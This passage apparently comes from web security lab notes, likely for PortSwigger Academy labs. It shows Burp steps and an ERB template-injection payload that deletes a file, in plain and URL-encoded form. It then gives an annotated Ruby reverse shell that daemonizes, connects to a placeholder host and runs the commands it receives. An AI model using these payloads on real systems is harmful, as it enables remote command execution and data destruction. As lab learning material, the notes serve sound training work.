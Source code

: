 - Replace the `blog-post-author-display` parameter in Burp with the encoded payload.

- Reload the page with your comment to execute the template and delete the file.

#### 14) Basic server-side template injection

- Click on **View details** of the first product, and you will see the message **Unfortunately this product is out of stock** on the screen.

- In Burp's HTTP history, find the request that contains the `message` parameter with this message and send it to Repeater.

- Modify the value of the `message` parameter to the following payload:
	```erb
	<%= system("rm /home/carlos/morale.txt") %>
	```
	> Note: Before sending, make sure to URL encode the payload as follows:
		`<%25%3d+system("rm+/home/carlos/morale.txt")+%25>`

### Ruby reverse shell

#### Explanation

```ruby
if Process.fork
	exit
end
Process.setsid
if Process.fork
	exit
end
STDIN.reopen('/dev/null')
STDOUT.reopen('/dev/null', 'a')
STDERR.reopen('/dev/null', 'a')
```
This part detaches the program from the terminal, making it a background daemon. It ensures the process runs independently by forking twice and redirecting standard input, output, and error to `/dev/null`.

```ruby
HOST = "host_machine_ip"
PORT = "port_for_listen"
sock = TCPSocket.new HOST, PORT
```
This part establishes a TCP connection to the specified remote host and port.

```ruby
while true
	begin	
		sock.print `pwd`.chomp + "$>"
		command = sock.gets&.strip
		next if command.nil?

		if command == "exit"
			break
		elsif command.start_with?("cd ")
			Dir.chdir(command[3..])
		else
			output = `#{command}`
			sock.puts output
		end
	rescue Errno::ENOENT => e
		sock.puts "Error: #{e.message}"
	end
end
```